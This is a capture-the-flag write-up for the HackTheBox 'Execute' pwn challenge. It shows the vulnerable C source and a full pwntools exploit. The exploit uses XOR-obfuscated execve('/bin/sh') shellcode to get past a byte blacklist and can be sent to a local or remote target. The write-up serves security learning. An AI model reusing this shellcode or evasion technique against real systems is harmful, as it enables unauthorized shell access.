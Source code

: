 # Execute

- **Challenge**: [https://app.hackthebox.com/challenges/Execute](https://app.hackthebox.com/challenges/Execute)
- **Category**: Pwn
- **Level**: Easy
- **Author**: ryaagard

```bash

$ file *
execute:   ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=815ed65e93f716cd381035b74fa25dc5d7aa8ff5, for GNU/Linux 3.2.0, not stripped

execute.c: C source, ASCII text

flag.txt:  ASCII text

```

We proceed with the analysis of the source file **execute.c**.

## Source Code Analysis

```c

// gcc execute.c -z execstack -o execute

#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void setup() {
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(0x7f);
}

int check(char *a, char *b, int size, int op) {
    for(int i = 0; i < op; i++) {
        for(int j = 0; j < size-1; j++) {
            if(a[i] == b[j])
                return 0;
        }
    }

    return 1337;
}

int main(){
    char buf[62];
    char blacklist[] = "\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67";

    setup();

    puts("Hey, just because I am hungry doesn't mean I'll execute everything");

    int size = read(0, buf, 60);

    if(!check(blacklist, buf, size, strlen(blacklist))) {
        puts("Hehe, told you... won't accept everything");
        exit(1337);
    }

    ( ( void (*) () ) buf) ();
}

```

Essentially, the program allows inserting and executing arbitrary code loaded on the stack (that is, in the local variable **buf**).

**[+] Shellcode Injection Vulnerability**.

Indeed, note that the binary **execute** does not have the **No eXecutable** protection enabled.

```bash

$ checksec --file=execute
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The program allows allocating **60 bytes** of data on the stack, but the **shellcode** to be executed must pass the control of the **check** function.

The *check* function compares the input data with a **blacklist**, to avoid executing code containing the following bytes/characters:

```bash

$ python2 -c "print b'\x3b\x54\x62\x69\x6e\x73\x68\xf6\xd2\xc0\x5f\xc9\x66\x6c\x61\x67'" | xxd
00000000: 3b54 6269 6e73 68f6 d2c0 5fc9 666c 6167  ;Tbinsh..._.flag
00000010: 0a                                       .

```

Hence, we proceed with building shellcode.

## Crafting the payload

How to bypass the **blacklist**?

**[IDEA]**: use the **XOR** function to obfuscate data.

![XOR](./img/xor.png)

Below is the Python script built for:

1. **Data obfuscation**
2. **Crafting the shellcode**
3. **Exploitation**

```python

#!/usr/bin/env python3
from pwn import context, ELF, asm, disasm, info, process, gdb, remote
from argparse import ArgumentParser
import os

exe = "./execute"
elf = context.binary = ELF(exe, checksec=False)

```

### 1. Data Obfuscation

```python

### Obfuscation: /bin/cat flag.txt

_bin_sh = int.from_bytes("/bin/sh\x00".encode(), byteorder="little")
key = 0x9222311122334411

obf_bin_sh = _bin_sh ^ key

info(f"Data Obfuscation:\n/bin/sh:\n\t{hex(_bin_sh)}\nkey:\n\t{hex(key)}\n/bin/sh XOR key:\n\t{hex(obf_bin_sh)}\n")

```

### 2. Crafting the shellcode

```python

### Shellcode generation: execve(char* pathname, char** argv, char** envp) ###

payload=b""

# char* pathname
payload+=asm(f"mov rdi, {obf_bin_sh}")
payload+=asm(f"mov r8, {key}")
payload+=asm("xor rdi, r8")
payload+=asm("push rdi")
payload+=asm("mov rdi, rsp")

# char** argv, char** envp
payload+=asm("xor r11, r11")
payload+=asm("mov rsi, r11")
payload+=asm("mov rdx, r11")

# syscall(59) => execve("/bin/sh", NULL, NULL)
payload+=asm("mov al, 0x3c")
payload+=asm("dec al")
payload+=asm("syscall")

info(f"Shellcode\n{disasm(payload)}\n")
info(f"Shellcode length: {len(payload)} bytes\n")

```

It should be noted that this construction was reached after various local tests in **DEBUG** mode (see next section) since some instructions like **pop rdi** did not pass the *check* function.

### 3. Exploitation

```python

### Exploitation ###

context.log_level="debug"
gdbinit="""
init-pwndbg
break* main
break* main+98
break* main+134
# break* main+174
continue
"""

parser = ArgumentParser(prog=os.path.basename(__file__))
parser.add_argument("-r", "--remote", help="-r, --remote REMOTE:PORT", action="store", type=str, nargs=1)
parser.add_argument("-p", "--process", help="-p, --process", action="store_true")
parser.add_argument("-d", "--debug", help="-d, --debug", action="store_true")

args = parser.parse_args()
if args.process:
    io=process([exe])
elif args.debug:
    io=gdb.debug([exe], gdbscript=gdbinit)
elif args.remote is not None:
    REMOTE, PORT = args.remote[0].split(':')
    io=remote(REMOTE, int(PORT))
else:
    exit(1)

io.sendlineafter(b'\n',payload)
io.interactive()

```

## Local Exploitation

![Local Exploitation](./img/local.png)

With **DEBUG** mode it is possible to see:

### 1. The shellcode in memory

![Shellcode on the stack](./img/debug1.png)

### 2. Bypassing the check function

![Bypass the check](./img/debug2.png)
 
### 3. Shellcode execution

![Shellcode execution](./img/debug3.png)

## Remote Exploitation

Finally, the **flag** is captured remotely.

![Remote Exploitation](./img/remote.png)

GG :3

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
